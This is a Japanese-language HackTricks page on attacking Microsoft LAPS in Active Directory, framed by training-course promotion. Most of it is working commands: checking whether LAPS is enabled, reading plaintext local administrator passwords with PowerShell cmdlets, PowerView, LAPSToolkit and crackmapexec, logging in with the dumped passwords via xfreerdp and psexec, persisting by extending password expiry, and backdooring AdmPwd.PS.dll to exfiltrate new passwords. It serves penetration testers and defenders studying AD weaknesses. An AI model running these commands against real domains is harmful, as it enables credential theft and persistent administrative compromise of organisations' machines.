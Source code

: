 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## 基本情報

Local Administrator Password Solution (LAPS) は、**管理者パスワード**を管理するためのツールであり、これらのパスワードは**ユニークでランダム化され、頻繁に変更されます**。これらはドメインに参加しているコンピュータに適用されます。これらのパスワードはActive Directory内に安全に保存され、アクセス制御リスト（ACL）を通じて権限が付与されたユーザーのみがアクセスできます。クライアントからサーバーへのパスワードの送信のセキュリティは、**Kerberosバージョン5**と**高度な暗号化標準（AES）**の使用によって確保されています。

ドメインのコンピュータオブジェクトにおいて、LAPSの実装により、2つの新しい属性が追加されます：**`ms-mcs-AdmPwd`**と**`ms-mcs-AdmPwdExpirationTime`**。これらの属性はそれぞれ、**平文の管理者パスワード**と**その有効期限**を保存します。

### 有効かどうかを確認する
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS パスワードアクセス

`\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` から **生の LAPS ポリシーをダウンロード** し、次に [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) パッケージの **`Parse-PolFile`** を使用して、このファイルを人間が読みやすい形式に変換できます。

さらに、**ネイティブ LAPS PowerShell cmdlets** は、アクセスできるマシンにインストールされている場合に使用できます:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView**を使用して、**誰がパスワードを読み取ることができるか、そしてそれを読むことができるか**を調べることもできます：
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) は、いくつかの機能を使って LAPS の列挙を容易にします。\
その一つは、**LAPS が有効なすべてのコンピュータ**のために **`ExtendedRights`** を解析することです。これにより、**LAPS パスワードを読み取るために特に委任されたグループ**が表示されます。これらはしばしば保護されたグループのユーザーです。\
**ドメインにコンピュータを参加させたアカウント**は、そのホストに対して `All Extended Rights` を受け取り、この権利により **パスワードを読み取る**能力が与えられます。列挙により、ホスト上で LAPS パスワードを読み取ることができるユーザーアカウントが表示されることがあります。これにより、LAPS パスワードを読み取ることができる特定の AD ユーザーを **ターゲットにする**のに役立ちます。
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
PowerShellにアクセスできない場合は、LDAPを使用してこの特権をリモートで悪用できます。
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
これにより、ユーザーが読み取れるすべてのパスワードがダンプされ、別のユーザーでより良い足場を得ることができます。

## ** LAPSパスワードの使用 **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **有効期限**

一度管理者になると、**パスワードを取得**し、**有効期限を未来に設定することによって**マシンが**パスワードを更新するのを防ぐ**ことが可能です。
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
パスワードは、**admin**が**`Reset-AdmPwdPassword`** cmdletを使用した場合、またはLAPS GPOで**ポリシーで要求されるよりも長いパスワードの有効期限を許可しない**が有効になっている場合でもリセットされます。
{% endhint %}

### バックドア

LAPSの元のソースコードは[こちら](https://github.com/GreyCorbel/admpwd)にあります。したがって、コードにバックドアを仕込むことが可能です（例えば、`Main/AdmPwd.PS/Main.cs`の`Get-AdmPwdPassword`メソッド内）で、新しいパスワードを**外部に流出させるか、どこかに保存する**ことができます。

その後、新しい`AdmPwd.PS.dll`をコンパイルし、`C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll`にアップロードします（そして、修正時間を変更します）。

## 参考文献
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
